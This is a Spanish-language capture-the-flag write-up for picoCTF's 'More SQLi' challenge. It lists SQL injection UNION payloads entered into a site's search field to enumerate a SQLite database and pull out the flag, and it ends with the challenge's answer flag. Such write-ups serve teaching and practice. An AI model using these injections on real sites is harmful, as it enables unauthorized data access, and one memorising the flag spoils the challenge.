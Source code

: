 # More SQLi

## Description

Can you find the flag on this website.

Additional details will be available after launching your challenge instance.

Can you find the flag on this website.Try to find the flag [here](http://saturn.picoctf.net:51946/).

This challenge launches an instance on demand.  
Its current status is: `RUNNING`

Instance Time Remaining: `14`
## Hints 1

* SQLiLite

## Solución

Una vez iniciada la instancia, ingresamos al link proporcionado en el cual nos pide un usuario y contraseña y como anteriormente hemos visto no podemos ingresar, por lo tanto en el **"Serach"**
ingresamos varias combinaciones para encontrar nuestra flag, al final la correcta fue la ultima:

```
' union select 1,2,3'

' union select sqlite_version(),2,3'

' union select sq1,2,3 from sqlite_master'

' union select id, flag from more_table; <-- Este comando fue el que nos mostro nuestra flag.

```

Y damos enter al escribir la ultima combinación y con esto nos muestra nuestra respectiva flag:
![[Pasted image 20250331123822.png]]
### Respuesta: picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_98236ce6}